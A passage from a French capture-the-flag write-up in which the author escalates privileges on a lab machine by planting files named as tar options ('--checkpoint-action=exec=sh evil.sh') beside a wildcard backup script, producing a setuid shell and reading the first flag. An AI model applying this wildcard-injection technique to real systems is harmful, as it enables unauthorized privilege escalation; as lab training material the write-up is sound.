 Le script bash est particulièrement intéressant :

```bash
#!/bin/bash

cd /var/www/html && tar -zcf /tmp/web.tar.gz *

#TO DO: Improve the script.
```

Tout comme pour le [CTF Shuriken 1](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Shuriken%201%20de%20VulnHub.md) il est possible d'exploiter l'utilisation du wildcard et donc de créer des fichiers qui seront considérés comme des options à passer à `tar` :

```shellsession
www-data@waynemanor:/var/www/html$ echo -e '#!/usr/bin/bash\ncp /usr/bin/dash /tmp/batshell\nchmod 4755 /tmp/batshell' > evil.sh
www-data@waynemanor:/var/www/html$ chmod 755 evil.sh
www-data@waynemanor:/var/www/html$ touch -- "--checkpoint=1"
www-data@waynemanor:/var/www/html$ touch -- "--checkpoint-action=exec=sh evil.sh" 
www-data@waynemanor:/var/www/html$ touch a
```

Après une minute j'obtiens un shell setuid pour `batman` :

```
-rwsr-xr-x  1 batman   batman    129816 Feb 14 17:51 batshell
```

Et du coup le premier flag :

```shellsession
www-data@waynemanor:/var/www/html$ /tmp/batshell -p
$ id
uid=33(www-data) gid=33(www-data) euid=1000(batman) groups=33(www-data)
$ cd /home/batman
$ ls
local.txt
$ cat local.txt

I left the party... I saw the call... I had to go... Gotham City needs me...


 :::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::
 :::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::
 :::::::::::::::::::::::::::::::::::::::::::::-'    `-::::::::::::::::::
 ::::::::::::::::::::::::::::::::::::::::::-'          `::::::::::::::::
 :::::::::::::::::::::::::::::::::::::::-  '   /(_M_)\  `:::::::::::::::
 :::::::::::::::::::::::::::::::::::-'        |       |  :::::::::::::::
 ::::::::::::::::::::::::::::::::-         .   \/~V~\/  ,:::::::::::::::
 ::::::::::::::::::::::::::::-'             .          ,::::::::::::::::
 :::::::::::::::::::::::::-'                 `-.    .-::::::::::::::::::
 :::::::::::::::::::::-'                  _,,-::::::::::::::::::::::::::
 ::::::::::::::::::-'                _,--:::::::::::::::::::::::::::::::
 ::::::::::::::-'               _.--::::::::::::::::::::::#####:::::::::
 :::::::::::-'             _.--:::::::::::::::::::::::::::#####:::::####
 ::::::::'    ##     ###.-::::::###:::::::::::::::::::::::#####:::::####
 ::::-'       ###_.::######:::::###::::::::::::::#####:##########:::####
 :'         .:###::########:::::###::::::::::::::#####:##########:::####
      ...--:::###::########:::::###:::::######:::#####:##########:::####
  _.--:::##:::###:#########:::::###:::::######:::#####:#################
 '#########:::###:#########::#########::######:::#####:#################
 :#########:::#############::#########::######:::#######################
 ##########:::########################::################################
 ##########:::##########################################################
 ##########:::##########################################################
 #######################################################################
 #######################################################################
```